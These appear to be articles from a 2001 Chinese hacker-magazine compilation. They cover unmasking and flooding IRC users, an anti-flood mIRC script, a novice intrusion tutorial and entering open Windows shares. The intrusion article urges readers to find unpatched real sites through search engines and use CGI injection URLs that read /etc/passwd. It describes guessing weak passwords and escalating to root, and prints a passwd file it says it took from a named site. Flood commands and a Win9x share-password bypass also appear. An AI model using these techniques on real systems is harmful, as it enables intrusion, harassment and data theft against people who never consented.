- 2. 大家都知道很多论坛、BBS 都会把访问者的 IP 如实记录下来，而且别人可以查看。所以，只要骗别人访问某个 BBS、论坛，然后去看记录就可以了。
- 3. 在自己的机器装查 IP 的工具，然后，骗人家访问你的机器。人家一旦访问了你的机器，IP 就蹦出来了。

以上这些只要你自己小心，不要随意相信别人的话就可以了。用查的方法，自己恐怕就无能为力了。如何查呢？先来熟悉 2 个 IRC 命令：

```
/who /whois
/who springold
-
* springold H ~ ling_zhu@127.0.0.FastNet - 14601 0 coolove
springold 结束 /WHO 列表
-
/whois springold
-
springold 是 ~ ling_zhu@127.0.0.FastNet - 14601 * coolove
springold 正在使用 IRC.FastNet.Org FastNet IRC Server
springold 已经空闲 27mins 55secs 登录在 Sat Jun 02 18 53 21
springold 结束 /WHOIS 命令
-
```

看到了么？两个命令的执行结果里面都有：

```
~ ling_zhu@127.0.0.FastNet - 14601
```

其中的 `127.0.0.FastNet - 14601` 就是你的 IP，当然这个是 Mask 过的，最后一位无法得知。这是因为连接服务器的时候，执行过 `/mode nick +x` 的结果。

我们现在把 +x 去掉看看：
用户 springold 运行下面的命令：

```
/mode springold -x
19 23 26 * * * springold 设定模式 -x
OK，执行成功。
```

现在切换到另外一个用户 Test 的 Mirc 里：

```
/who springold
-
* springold H ~ ling_zhu@127.0.0.1 0 coolove
springold 结束 /WHO 列表
```

```
/whois springold
-
springold 是 ~ ling_zhu@127.0.0.1 * coolove
springold 正在使用 IRC.FastNet.Org FastNet IRC Server
springold 已经空闲 35mins 34secs 登录在 Sat Jun 02 18 53 21
springold 结束 /WHOIS 命令
-
```

我是在本机测试的。可以看到，执行过 `/mode nick -x` 以后，对 IP 地址的 Mask 也去掉了，任何人只要执行 `/whois yournick` 就可以得到你的 IP。所以在连进 IRC 的时候，请先执行下面的命令：

```
/mode yournick +x
```

但是，是不是 +x 之后 IP 就安全了呢？完全不是的。还是有别的方法可以查清楚最后那个 Mask 过的数字。以前很多的 IRC 服务器都有个漏洞，利用 `/who` 命令就可以查出别人的 IP，现在国内的 IRC 服务器好些都没有这个漏洞了，不过很多 IRC 经常更换服务器软件，难保以后不碰上。这里只给点提示：

执行过上面的 `/whois` 之后我们得到了一个 Mask 过的 `127.0.0.FastNet - 14601`：

```
执行
/who 127.0.0.FastNet - 14601
* springold H ~ ling_zhu@127.0.0.FastNet - 14601 0 coolove
* test H ~ ling_zhu@127.0.0.FastNet - 14601 0 coolove
127.0.0.FastNet - 14601 结束 /WHO 列表
```

```
/who 127.0.0.*
* springold H ~ ling_zhu@127.0.0.FastNet - 14601 0 coolove
* test H ~ ling_zhu@127.0.0.FastNet - 14601 0 coolove
127.0.0.* 结束 /WHO 列表
```

而

```
/who 127.0.0.5
127.0.0.5 结束 /WHO 列表
```

可以看出来 `/who` 后面跟 IP，可以查出 IP 所在的用户。所以：

```
/mode 127.0.0.1 *
/mode 127.0.0.2 *
……
```

执行 255 次？自己去想吧，不过数目是远小于 255 的，不然不是要累死人？当然如果你会 Mirc Script 就更好了。写个脚本查也不是特别难。

刚才说了，目前的服务器很多都不能这么查了。有别的方法么？当然啦。既然已经知道了前面三位 IP，最后一个 Mask 过的要知道也不是很难。用个扫描软件 scan 一下那个 C 段，从出来的几个 IP 里面再猜吧，如果扫描结果只有一个，那猜也不用猜了。如果和前面说的骗的方法相结合，也能收到很好的效果。

针对 IP 的攻击一般有两种，一种就是我们常说的“NUKE”，它利用 95/98 系统的一些 Bug 进行攻击，通常攻击的结果都是死机或者蓝屏，所以通常也叫蓝屏炸弹。另外一种就是 DOS，向你的机器发送大量的数据包，导致你的网络带宽消耗殆尽，正常的数据包无法正常收发。要防止 Nuke，只要你安装最新版本的 98 系统，或者打上补丁就可以。对付 DOS，可以使用防火墙，Lockdown、天网的效果都还不错，其中 Lockdown 还有查杀木马的功能，值得一试。

## 基于 IRC 的 Flood 以及防御方法

前面说了基于 IRC 的木马和暴露 IP 所引起的一些攻击方法。事实上，在 IRC 里面你所能碰到的攻击手段大部分都是基于 Mirc 的 Flood 攻击。

何谓 Flood？Flood 在英语里的本意为洪水，在网络里，我们把使用大量的数据来使网络资源减少的攻击叫做 Flood。在 IRC 里面，你所见的大部分信息都可以被别有用心的人利用起来进行 Flood 攻击，比如 Join/Part 频道、说话的 Msg、Notice、动作 /me、改名字等等，只要重复的速度够快，次数够多，就形成了 Flood。好，我们来看看具体的一些 Flood 手段。

- 1. Text Flood
  这种 Flood 是最常用的。一般用户最容易想到的就是这种 Flood。在频道里面打入一句话：
  ```
  /say xxxxxxxxxxxxxxxxxx （x 为任意的内容，后同）
  ```
  或者
  ```
  /msg # xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
  ```
  这里的 # 可以改成人名或者具体的频道名。然后不断的按 ↑ Enter，或者 Ctrl + V、Ctrl + V 不断地向频道/或个人发送同样的一句话。你看到的结果是这样的：
  ```
  06 18 50 <test>y >>>>>>y
  06 18 50 <test>y >>>>>>y
  ```
  最快只能每秒发送 5 句，虽然不会搞得你死机和断线，不过不采取点措施，想正常聊天是不大可能了。这种攻击方法有个弊端，就是攻击者自己也一句不拉地看到这些话，所以他们自己也别想好好的聊天了。

  如果攻击是针对你个人的，使用 Ignore 命令 `/ignore nick` 即可把该用户忽略。发自该用户的所有消息都将被服务器过滤掉，不会发到你的客户端。如果攻击是针对一个频道的，则由频道管理员（管理员的名字前面有 @）给该用户 +b，即我们通常所说的 Ban。

  Ban 命令的基本用法是：
  ```
  /ban nick n (n 可以取 1~8，也可以不要，Ban 会使用默认的数字)
  ```
  Ban 了以后，攻击者将看到下面的消息：
  ```
  07 31 42 * * * springold 设定模式 +b * * @127.0.0.FastNet - 14601
  07 31 50 <m3> y xxxxxxxxxxxx y
  ```
  ```
  # test 不能向频道里发送信息 You are banned 。
  ```
  这时，他的话已经无法送到频道，Flood 自然也就失效。

- 2. Action Flood
  重复使用
  ```
  /me xxxxxxxxxxxxxxxxxxxx (x 为随意内容)
  ```
  引起 Flood，造成的影响和上面的差不多。不过攻击者自己可以不必看到发出的内容，后面以 x 来代替，只要在 Me 的前面加个小逗点 . 就可以，也就是 `/.me`。你看到的攻击效果如下：
  ```
  06 35 30 * test xxxxxxxxxxxxxxx
  ```
  防御方法同上。

- 3. Notice Flood
  威力比上面两个都大些，上面的攻击你切换到另外一个频道，也就看不到了，而这个，躲是躲不掉的，无论你的窗口切换到哪个频道或小窗，都可以看到。和 /me 一样。Notice 也可以使用 `/.notice` 来消除攻击对攻击者自己带来的影响：
  ```
  /notice springold xxxxxxxx
  ```
  ```
  /notice # xxxxxxxxxxxxxxxxxx
  ```
  前一句针对个人，后一句针对频道，所有在该频道的人都可以看到。看到的信息如下：
  ```
  06 43 44 - test - xxxxxxxxxxxx 针对个人
  ```
  ```
  06 45 03 - test # test - xxxxxxxxxxx (针对频道)
  ```
  攻击者可以看出来都是 Test 用户。

- 4. Nick Flood
  以很快的速度改名字也同样可以形成 Flood。效果和 Text Flood 一样，不过范围更大，只要是攻击者所在的频道，都受到攻击。不断重复下面的命令：
  ```
  //nick $rand a z
  ```
  即可形成 Flood。看具体攻击效果：
  ```
  06 54 59 * * * c 现在命名为 b
  ```
  ```
  06 55 10 * * * b 现在命名为 d
  ```
  ```
  06 55 10 * * * d 现在命名为 l
  ```
  对付这种攻击很简单，把它 Ban 了就可以，被 Ban 的用户是不能改名字的。当然前提是你要有 @。如果一个频道没有一个人有帽子，那只能去 #help 频道请系统的管理员 Oper 来了。如果 Oper 也不在，那只能任由他胡作非为了。

- 5. Join/Part Flood
  一个用户进出频道的时候，我们可以看到如下的文字：
  ```
  07 11 10 * * * m3 ~ ling_zhu@127.0.0.FastNet - 14601 离开 # test
  ```
  ```
  07 11 15 * * * m3 ~ ling_zhu@127.0.0.FastNet - 14601 参加 # test
  ```
  如果一个人不停地 Join/Part，也就形成了 Join/Part Flood。Join/Part Flood 通常是要写脚本来完成的。
  要防止 Join/Part Flood，把他 Ban 掉就可以了。被 Ban 的用户一旦离开频道便无法再次加入频道，直到解除 Ban。

- 6. CTCP Flood
  CTCP 攻击的效果比上面的要厉害些。具体的 CTCP 攻击有以下几种：
  ```
  /ctcp nick ping
  ```
  ```
  /ctcp nick version
  ```
  ```
  /ctcp nick time
  ```
  ```
  /ctcp nick finger
  ```
  受攻击者看到的效果是这样的：| 07 | 21 | 13 | m3 PING |
| --- | --- | --- | --- |
| 07 | 21 | 16 | m3 VERSION |
| 07 | 21 | 20 | m3 TIME |
| 07 | 21 | 23 | m3 FINGER |

m3 为攻击者的名字。

连续不断地发送 /ctcp nick ping

| 07 | 52 | 51 | - > | springold | PING |
| --- | --- | --- | --- | --- | --- |
| - |  |  |  |  |  |
| 07 | 52 | 51 | springold PING Reply | 5secs |  |
| 07 | 52 | 52 | - > | springold | PING |
| - |  |  |  |  |  |
| 07 | 52 | 52 | springold PING Reply | 8secs |  |

从后面的 Reply 回复的速度上可以看出攻击效果。

和前面的 /notice /me 等一样，同样也可以使用 /.ctcp 来消除攻击对自己的一些影响。

## 7. DCC flood

包括 DCC chat 和 DCC send 两种。如果你的 DCC 选项设置成忽略，那这种攻击是无效的。如果你的 DCC 设置是自动接受的，那效果就比较“明显”了。具体的攻击脚本我这里不提供给大家，大家有兴趣测试的话可以到一些 Mirc Script 网站上面去找。

防止这种攻击同样也可以使用 /ignore 命令。

除了上面说的这些攻击方法外，还有另外一些攻击的手段，不过用的不是很多，比如 op/deop 加帽子也能用来攻击？ kick/invite 等等，这里不再详细讨论。需要指出的是，以上都是用手工完成的。事实上，攻击者往往是使用了脚本的。一来方便，二来效果也更加明显。

很多的时候，用手工来对付基于脚本的攻击是来不及的。一旦攻击开始，你向服务器发送的所有命令都无法正确得到执行，因为资源都被攻击者占用了。攻击的脚本往往都使用 /timer 命令或者使用循环语句。有关 /timer 命令的用法可以看 mirc 自带的帮助文件，也可以访问 http://xirc.yeah.net

这里我举一个最简单的例子：

```
/timer 100 1 /.me it's just a test
```

这条语句将以每秒一句的速度向频道发送 100 句

| 08 | 02 | 08 | * m3 it's just a test |
| --- | --- | --- | --- |

下面简单介绍一下 Flood Protect 脚本的写作思路。我们先来看一个最基本的保护脚本例子：

```mirc
on * ACTION * #:{
  %prot.act = strip $1-
  if ($nick == $me) halt
  if (slap isin %prot.act) halt
  inc %self-protection.action$+$nick$+$chan
  .timer 1 4 /unset %self-protection.action$+$nick$+$chan
  if (%self-protection.action$+$nick$+$chan > 6) {
    if ($me isop $chan) {
      ban -u60 $chan $nick $address($nick,2)
      kick $chan $nick _4 $+ $read(kicks.txt)
      unset %self-protection.action$+$nick$+$chan
    }
    else {
      ignore -pcu30 $nick
      echo -a_14 $nick Action _4Flooding _14You ..ignored now
      notice $nick _14 Do Not Flood_4 $me _14. You were Ignored now !
    }
  }
}
```

这段脚本是针对 Action flood a channel 的。脚本的主要思路是这样的：
先判断是否自己发出的 /me 动作，如果不是，再判断是否为 Slap，因为 Slap 通常都是朋友开玩笑的，所以也过滤掉。如果两者都不是，就开始统计次数：

```
inc %self-protection.action$+$nick$+$chan
```
/me 一次，变量 `%self-protection.action$+$nick$+$chan` 的次数加一。

另外再设置一个定时器：

```
.timer 1 4 /unset %self-protection.action$+$nick$+$chan
```

它的意思是，每过 4 秒就把变量 `%self-protection.action$+$nick$+$chan` 的值重置。接着就是判断是否形成 Flood 以及做出相应的处理了。

```
if %self-protection.action$+$nick$+$chan > 6
```

判断是否在 4 秒内发送了 6 句以上的 Action，如果是，就进行相应的处理。这里，我们对自己在频道中有帽子和没有帽子作了不同的处理。
如果有帽子：

```mirc
if $me isop $chan
  ban -u60 $chan $nick $address($nick,2)
  kick $chan $nick _4 $+ $read(kicks.txt)
  unset %self-protection.action$+$nick$+$chan
```

它的意思是，把该用户 Ban 掉 60 秒，然后踢出频道，这样他就无法在 60 秒内再加入频道进行攻击。
如果没有帽子，就执行下面的脚本：

```mirc
else
  ignore -pcu30 $nick
  echo -a_14 $nick Action _4Flooding _14You ..ignored now
  notice $nick _14 Do Not Flood_4 $me _14. You were Ignored now !
```

先忽略该用户的 /me 消息 30 秒，然后给自己发送一条消息，通知有人使用 Action flood 你，并且已经被自己忽略了。接着给攻击者发送一条 `Do Not Flood_4 $me _14. You were Ignored now.` 的警告。根据这个思路，可以写出很多防卫脚本来保护自己。

# 黑客防线精华本 2001

为了躲避脚本的防卫，攻击者的脚本往往是多种攻击相结合的。比如针对上面的防卫脚本，攻击者只要发送了 5 句之后，就换成别的攻击，脚本的 Flood 判断就无法触发。防卫也就失去了作用，攻击者再用了别的 Flood 之后，还可以转回来用 Action Flood，因为 4 秒时间一过，变量被重置，计数又重新开始了。

有一定脚本使用经验的攻击者往往都使用一种更加厉害的攻击方法，那就是 Clone。被 Clone Flood 过的人往往都是“谈 Clone 色变”。那么何谓“Clone”？Clone 就是用一个 Mirc，利用 Socket 编程复制很多个用户连接到 IRC 服务器上，这些在同一个 Mirc 上面的用户就是 Clone。Clone 攻击的威力是很大的，因为所有 Clone 用户可以一起使用前面所说的各种攻击，比如你 Clone 了 20 个用户上 Action Flood，就相当于你纠集了 20 个同党一起 Action Flood，威力是你单个人攻击的 20 倍，而且事实上，脚本的速度往往比手工快，攻击者为了达到好的攻击效果，Clone 数目往往是 50 个甚至是上百个，威力就会成倍增长。IRC 用户一旦碰到这样的攻击，往往是屏幕定住，机器没有任何响应，不得不强行结束任务或者是重新启动，别提 IRC 里面泡 MM 了。在实际的测试中，如果对一个频道进行 Clone 20 个人的 Flood，用不了多久，频道里面 90%以上的人就会因为和服务器的响应时间过长而断掉。Clone 脚本我这里不便提供给大家，只提供几张 clone 攻击的截图给大家“欣赏”。

如图1、图2、图3


图1：


图2：

# 黑客防线精华本 2001


图3：

防御这样的攻击有一定的难度。以前面的那段脚本为例，如果每个 Clone 都只 Action 5 次，那么是不会触发防御脚本的，但是如果有 50 个 Clone 的话，你将收到 5 * 50 = 250 条消息，而且时间很短，威力已经比较大了，如果和别的攻击一结合，命中率简直可以到 100%。如何防止 Clone 攻击呢？

对于频道来说，可以：

```
/mode #channel +k password
```

也可以设置成只邀请模式，这样别人就不能随意进入频道，Clone 自然也进不来。对于个人，恐怕只有断掉 Mirc（或者重新启动机器），重新连进去，先执行一次 `/ignore xxx.xxx.xx.xx xxx.xxx.xx.xx` 为攻击者的 IP，Whois 查出来的 Mask 过的就可以，然后再进去聊天。

该说的都说了，最后再作几点小小的补充说明吧：

- 1. Mirc 里面所有的命令默认都是以 / 开头的。至于命令本身，在你平时说话的地方输入，敲回车就可以了。
- 2. 前面多处提到了 Ignore 命令，这里针对这个命令作个说明：
  - `/ignore nick 3` 彻底的忽略掉一个人；
  - `/ignore nick 4` 忽略所有和该 Nick 同 IP 的人；
  - `/ignore -t nick 3` 忽略该 Nick 对你的 Ctcp；
  - `/ignore -t * * @ *` 忽略所有的 Ctcp。
  更具体的用法请看 mirc 的帮助文件。
- 3. 千万不要用 Web 上 IRC，那样毫无安全性能可言，上面说的任何一种攻击手段对 Webchat 用户来说都将是致命的。
- 4. Mirc 自己带了个 Flood 设置，不过比较傻，具体位置是 File/Options/Flood/，自己去搞定吧。
- 5. Linux 用户千万不要以 Root 身份上 IRC，更不要在网站的服务器上面上 IRC。
- 6. 请不要使用本文提及的方法去攻击他人，否则一切后果自己负责。

## 网络入侵入门

文/处理器

黑客永远是走在技术尖端的人，永远追求最高和最尖端的技术并达到狂热的程度，才能被人称为黑客，黑客是别人给的评价，而不是自封的（援引 NetDemon 的话，我非常赞同）。我们大部分人都不能称之为黑客，所以文中我用入侵者这个词语。看着 linux 里面的源代码，再看看他们的作者，很少能看到中国人的身影，中国的黑客们还有很长的路要走。

此文针对新手，“真正”黑客级别的就不用看了，这篇文章对于你们来说是太菜了。我想上网多年的朋友们一定记得 coolfire 的入侵教程，那是一篇揭开入侵者神秘面纱的初级文章。无数刚学会拨号上网的少年，看着 coolfire 文章，依然热血沸腾。我也不例外，它让我从此迷恋上了网络。可是许多新手和当年的我一样，看完网络上入侵的教学篇后依然不知所措。为了让大家节省时间，少走弯路，我就结合我的经验来谈谈普通的入侵方式。网友们看过此文后，千万不要做违法的事，因为法律是无情的。

首先，我们要确立目标。要尽量收集目标的信息，如目标上运行的是什么操作系统，它开了哪些服务等。我们最好用 nmap 扫描器对目标进行扫描，顺便提一句，nmap 扫描器是 Unix 平台下的扫描器，新手们最好能熟练地使用它（见 Nmap 扫描说明）。以下是对某目标扫描的结果。我们分析一下。

```
Interesting ports on    xxx.xxx.xxx.xxx
The 1515 ports scanned but not shown below are in state    closed
Port State Service    RPC
7/tcp open echo
9/tcp open discard
13/tcp open daytime
19/tcp open chargen
21/tcp open ftp
23/tcp open telnet
37/tcp open time
79/tcp open finger <--- 收集用户信息
111/tcp open sunrpc    rpcbind V2-4
515/tcp open printer
540/tcp open uucp
1103/tcp open xaudio
4045/tcp open lockd    nlockmgr V1-4
6000/tcp open X11
6112/tcp open dtspc
7100/tcp open font-service
8080/tcp open http-proxy
32774/tcp open sometimes-rpc11    status V1
32775/tcp open sometimes-rpc13    ttbserverd V1    <--- 可能有溢出漏洞
32776/tcp open sometimes-rpc15    dmispd V1
32779/tcp open sometimes-rpc21    ttsession V1-4
TCP Sequence Prediction    Class=random positive increments
Difficulty=33704    Worthy challenge
```

```
Sequence numbers    48234DC2 4825A532 4826EE37 4827D6EB 48291220 482AF5C1
Remote operating system guess     Solaris 2.6-2.7 <--- 所用的操作系统
OS Fingerprint
TSeq    Class=RI%gcd=1%SI=83A8
T1    Resp=Y%DF=Y%W=2297%ACK=S++%Flags=AS%Ops=NNTNWME
T2    Resp=N
T3    Resp=N
T4    Resp=Y%DF=Y%W=0%ACK=O%Flags=R%Ops=
T5    Resp=Y%DF=Y%W=0%ACK=S++%Flags=AR%Ops=
T6    Resp=Y%DF=Y%W=0%ACK=O%Flags=R%Ops=
T7    Resp=Y%DF=Y%W=0%ACK=S%Flags=AR%Ops=
PU    Resp=Y%DF=Y%TOS=0%IPLEn=70%RIPTL=148%RID=E%RIPCK=E%UCK=E%
ULEN=134%DAT=E
```

通过扫描，我们可以看到这是一台 Solaris 2.6-2.7（Sun Microsystems 公司的服务器），服务比较多。其实对于这个公司来说，根本没有必要开这么多服务，我敢这么说，有些服务他们可能都不知道是什么，可是这么多服务对我们的入侵就比较有好处。有些服务当然对我们也没有什么用，如 daytime、xiaudio 等服务。有 finger 服务，我们可以得到用户信息，输入命令如 `finger -l @xxx.xxx.xxx.xxx`。如果没有人登陆到这台服务器的话，你 finger 不到有用的信息，别灰心，Sun 服务器的 finger 服务有个 bug，那就是你输入 `finger 12@xxx.xxx.xxx.xxx`（只要 @ 前面是数字的就可以了），你就可以得到所有登陆过这台服务器的用户信息。以下是 finger 的结果：

| Login Name | TTY | Idle | When | Where |
|---|---|---|---|---|
| daemon | <....> | | | |
| bin | <....> | | | |
| sys | <....> | | | |
| www | pts/1 | <Jun 22 10 04> | xxx.xxx.xxx.xxx | |
| richard | <....> | | | |
| fashion | <....> | | | |
| liu1971 | <....> | | | |
| root | <....> | | | |
| wangjin | <....> | | | |
| zhanghj | pts/2 | <Apr 18 09 30> | | |

国内服务器上的用户比较少，不像一些老外的服务器，用户多的不得了。有了用户名，你就可以 telnet 试试了，看能不能碰到几个傻瓜用户。如果碰巧进入了，你就 happy 了，即使是普通用户，可离 root 已不是很遥远了。这台服务器就是这种情况，我用 liu1971 这个用户进入了，因为他的密码和用户名一样，然后我通过本地漏洞提升为 root，就是 Sun 的 mailx 程序，这是个邮件服务程序，它就相当于 Linux 的 mail 程序，2001 年它被发现有溢出漏洞，网管们要小心了。如果这招失败，就看看它的 rpc 服务了，因为 Sun 的 rpc 远程溢出太可怕了，这几年层出不穷。这也是对付 Sun 服务器的最有效的方法。拿此服务器为例，它的 ttbdserverd 守护进程就很有可能有溢出漏洞，如果这台服务器没有 patch 的话。在 www.securityfocus.com 上我们就可以找到它的溢出程序。哎，我们利用的漏洞和程序基本上

# 黑客防线精华本 2001

是老外们写的。就这样，运气好的话，几分钟就搞定了一台服务器，再不行，你就用暴力法了，前提是你很有钱，搞个程序自动测试用户的密码了。这次中美网络大战，老美的那个专门黑中国 Sun 服务器的人，就是利用了 Sun 的 sadmind 远程溢出漏洞，这是一个 1999 年发现的漏洞，可是他在国内的服务器上屡屡得手，我真不知道国内的这些部门的网络管理人员是干什么的。能用的起 Sun 服务器的都是些重要部门或大公司，他们的硬件这么好，可人员素质却跟不上，用人制度真是差劲。对于新手们来说关键的一点是收集到足够的信息，然后利用一些已知的漏洞利用程序。

怎么得到一个用户名和密码呢？

方法一：使用小榕的流光软件。该软件界面友好，操作简单，极易上手。流光的 ftp 探测对 Win 系列的 ftp、Sun 的 proftp 都比较好，你可以用流光测试，看能不能得到一个普通用户。然后用该用户登陆，一般情况该用户在系统中都有一个 shell，如果能进入系统，你就准备夺取 root 权限吧。从我以往的经验看，许多系统的本地漏洞根本从没修补过，很轻松的就成为 root 了。

方法二：试试一些 cgi 漏洞。例如，`http://www.victim.com/cgi-bin/whois_raw.cgi fqdn=%0acat%20/etc/passwd`，`http://www.victim.com/cgi-bin/faxsurvey /bin/cat%20/etc/passwd`，`http://www.victim.com/opendir.php requesturl=/etc/passwd`，等等。这都是已知的一些 cgi 漏洞。当然，前提是这些傻瓜网站有这些 cgi 脚本，且没有修补。我们可以用 x-scan 扫描器，用它的 cgi 选项。如果大家实在想试试身手的话，我推荐一傻瓜法。因为我想对于新手而言，能成功的进入他人入侵生涯的第一台服务器是对他极大的鼓舞。到 `http://www.google.com` 这个网站去，这是一个搜索引擎。例如你输入 `/opendir.php` 进行搜索，就会找到一大堆用这个 cgi 的网站，你就慢慢实验了，很多网站没打补丁了。例如：`http://developer.html.com` 等一些站点，不过很多都是老外的。以下是该网站的 passwd。

```
root:0:0:root:/root:/bin/bash
bin:*:1:1:bin:/bin:
daemon:*:2:2:daemon:/sbin:
adm:*:3:4:adm:/var/adm:
lp:*:4:7:lp:/var/spool/lpd:
sync:*:5:0:sync:/sbin:/bin/sync
shutdown:*:6:0:shutdown:/sbin:/sbin/shutdown
halt:*:7:0:halt:/sbin:/sbin/halt
mail:*:8:12:mail:/var/spool/mail:
news:*:9:13:news:/var/spool/news:
uucp:*:10:14:uucp:/var/spool/uucp:
operator:*:11:0:operator:/root:
games:*:12:100:games:/usr/games:
gopher:*:13:30:gopher:/usr/lib/gopher:
ftp:*:14:50:FTP User:/home/ftp:
nobody:*:99:99:Nobody:/:
httpd:x:50000:50000:httpd:/web:/bin/bash
```


小编寄语：出门要注意交通安全，上网也要注意网络安全。特别是对于初次接触网络的人来说，要么处处顾虑，什么也不敢动，害怕被黑或者感染病毒；要么什么也不管，三两天机器就瘫痪。其实网络并不是那么可怕，你只要稍加留意，就会处理一些常见的安全问题。

文/sztcww

为了您的数据安全，为了使您不出现这样的情况：在 OICQ 上跟一个 MM 或者是帅哥畅快淋漓聊天的时候，电脑突然蓝屏死机了。你还会纳闷：“我的机器平时好好的，怎么今天死了 N 多次了啊，倒霉？”

网络就是一个大社会，绝对的安全是没有的。

本文章是只针对一般的上网用户 Windows 用户而写，不涉及那些攻击的原理，只给出一些针对性的防范方案。

## 一、安装个人防火墙

例如，国内的绿色警戒、天网等等。不管你有没有绑定 NetBEUI 协议，请把 UDP/TCP 135-139 的端口全部拦截（block）。其实做为一般上网用户的机子，根本就用不到提供什么服务，即使你装的是 Win2000 Service，默认开了一些你不知名的服务，这些服务有时反而成了你机子安全的威胁。既然不用，好，那就把它们全部 block 了吧。小于 1024 的端口系统是保留的，不会分配给应用程序的。所以放心，把 UDP/TCP <1024 的端口全部拦截。通过这些操作，可以防止大部分的端口攻击和危险的 139 攻击。

## 二、IE 的安全问题

IE 的安全问题可能是对一般用户最大的安全隐患。一些被恶意利用的 ActiveX 控件、恶意的 Java 程序、脚本等等，例如可以利用 ActiveX 控件进行 format 操作，利用脚本可把别人电脑上的任何文件覆盖掉（rewrite）。所以应该正确设置 ActiveX 控件、Java、脚本的安全级别。一般上网用户是不会给自己的 IE 打补丁（PATCH）的。所以如果有更高的 IE 版本，还是升级 IE 来的方便。

## 三、WSH 脚本问题

Windows 的 Windows Scripting Host 简称 WSH，脚本执行程序采用默认安装，所以一些恶意的程序，比如说大名鼎鼎的 ILOVEYOU.vbs 的 WSH 脚本文件来解释执行，可以通过 OUTLOOK、mIRC 传输到本机执行。WSH 脚本功能强大，几乎可以调用 Windows 的所有资源，危及系统。所以建议把 WSH 脚本解释器反安装了。

## 四、特洛依木马

不得不说的特洛依木马，先看看一篇转自绿盟的《特洛依防范八招》。一般的木马都是典型的 C/S 模型的程序，只是把服务器程序做了更隐蔽，大部分都是启动时自动运行那种，欺骗广大群众，Bo、冰河就是典型。但也不得不注意，例如：用 EMAIL 发给你一个特别的木马，而且随意就运行了它。该木马可以把你拨号上网的帐号和密码发到别人的 EMAIL 中，当然你如果保存密码的话。不知不觉间，你的帐号就被盗用了。

## 五、应用程序的安全问题

应用程序的安全问题，也可能使你在网上遭到攻击。例如：以前的 OICQ 版本存在堆（heap）、栈（stack）的溢出现象。Winamp 2.64 以下的版本也存在缓冲区溢出现象。

## 六、拒绝服务攻击

一种最最令管理员头痛的攻击就是 DOS（拒绝服务攻击）、DDoS（分布式的拒绝服务攻击），这种攻击其实就是拼网络的带宽。所以一般拨号用户遇到这种攻击的话根本就没有办法，惟有重新拨号，换个 IP 地址。

以上只是我概括的六个方面，当然还有其他的。随着被发现的漏洞越来越多，攻击的手段也就越多、越来越复杂，令人防不胜防。

## 对共享主机的简单入侵

所谓的共享主机就是在计算机里有共享的硬盘、文件夹或是打印机等共享项目。只有在安装了网卡的计算机上才可以设置共享，如网吧、公司里的局域网和一些用户自己连的对等网。个人可以打开我的电脑，在硬盘上点击鼠标右键来看看是否有共享这一项，如果有则可以在里面对自己的共享进行设置。共享的设置可以分为只读（可以对硬盘文件进行读取但无法删除或是上载）、完全（可以读取、删除、上载等操作）、需要密码访问（对上面的两种操作分别来设置密码）。不可否认，共享在局域网上给我们带来了很大方便，但如果开着共享的主机直接连上互联网的话，就会给安全带来很大的隐患。

首先如果你是台 Win98 的话，想要进入互联网上其他的共享主机，就要看看你的桌面上有没有“网上邻居”这一项，在个人安装 98 的时候，默认是没有安装的。如果需要的话，可以在控制面板“添加删除”程序里把 98 下的通讯一项全部选中，然后用 98 的光盘来进行安装工作。等一切做好了以后，我们就可以开始上网寻找网上的共享主机了。当然首先如果你想要先在自己的局域网内找找共享的话就可以省很多时间了。我们可以直接编一个程序来调用 API 函数来实现，运行后你将很快看到目前你所在的局域网中的所有主机的共享状态，详细到每一个文件。当然反过来，如果你并不想让对方看到你开着共享的话，可以在本地主机上将共享名称的后面加上一个简单的 $ 号来实现隐藏自己的共享，比如之前你将 C 盘共享取了一个名字为 C，则现在可以将名称改为 C$，以后，就不会在网上邻居中再显示你这个共享目录了，但对方依然可以在开始菜单的运行里通过打入 `\你的IP\C$` 来访问你的共享文件，所以可见取个不易被猜到名称也的确是非常重要的，比如你可以取个 123abc$ 这样的名字，一般人是很难猜中的。

在网上开着共享的主机多是一些网吧和公司局域中的电脑用户，他们在平时工作中设置共享多是为了玩游戏联机或是工作需要等，但实际上如果你的共享资源没有加上口令的话，那么全世界的人都可以共享了。可是否有访问密码就安全了呢？抱歉，答案依然是否定的，这是由于 Windows 95、98 共享目录密码校验有 BUG，可以让其只校验密码第一个字节。如果你是 Win98 系统，拷贝一个经过改动的驱动文件到 Windows\System 目录覆盖源文件，重启机器，然后你进入有密码的共享目录，出来提示“输入密码”窗口时不用敲密码，只要按住回车键不放，直到进入此目录。注意：出来“密码不对”提示，你按住回车键不放，就选了确定，你最多可试密码 256 次。一般密码是字母 0X20-0X80，最多 96 次。只要你按住回车键不放，很快就可以完成。远程开了 137、139 什么的，你可以在网上邻居里面输入 `\IP` 一样可以进入，可是 Win NT 机器不能用这种方法进入。

好了，现在我们已经初步掌握了这些知识。就让我们来看看到底怎么在网上找到有共享的主机吧！首先我们可以在 Windows 下的 DOS 窗口里用 `net view \对方IP` 来直接查看对方是否开有共享，如果有的话，我们可以直接得到对方共享资源的列表，如：

| Sharename | Type | Comment |
|---|---|---|
| BILLING | Disk | |
| C | Disk | |
| D | Disk | |
| F | Disk | |
| FILES | Disk | |
| HP | Print | |

The command was completed successfully.

这时我们就可以知道对方主机所开的所有共享目录了。

但这种方法显然效率并不是很高，因为每次我们还都要自己来敲入命令，当然我们可以用一些软件来查找有共享的主机。目前来说，国产软件网络刺客是一个非常不错的找共享的好工具，我们可以直接在里面添上我们想要查找的网段地址，随后网络刺客就可以自动为我们逐一来查找（如图 1）。


图 1

但由于速度方面和时间效益的矛盾，网络刺客也并非可以找到所有指定范围的共享。所以我再说说我平时用的一个比较老套的方法，但可以保证不会漏掉一个共享。先用月光的搜索版在指定的网段里寻找开有 NETBIOS 的主机，程序会返回对方的计算机名和用户名。不过我们也不能随便乱指定一个网段就去扫描，一般我们应该先在“开始”菜单里运行，用命令 `winipcfg` 来确定自己目前的 IP 的地址，然后在这个范围附近找，这样我们就可以保证我们有很高的机会找到我们需要的主机了（如图 2）。


图 2

拿到了这个计算机列表，我们就可以在开始菜单里查找在目录下计算机里直接输入对方的 IP 地址，然后按开始查找就可以了。如果对方开有共享的话，就会出现一个电脑的小图标（如图 3）。


图 3

我们只要双击就可以进入对方的共享目录了。在网上其实有大量的共享主机很多都是把自己的 C 盘设为共享的。当然，有的时候我们连进去一看什么都没有，这是由于对方并没有实际共享自己的任何文件所造成的，我们只好放弃去找下一个目标。好在在网上不注意安全的人有很多，我们很快就可以找到下一个目标的（如图 4）。


图 4

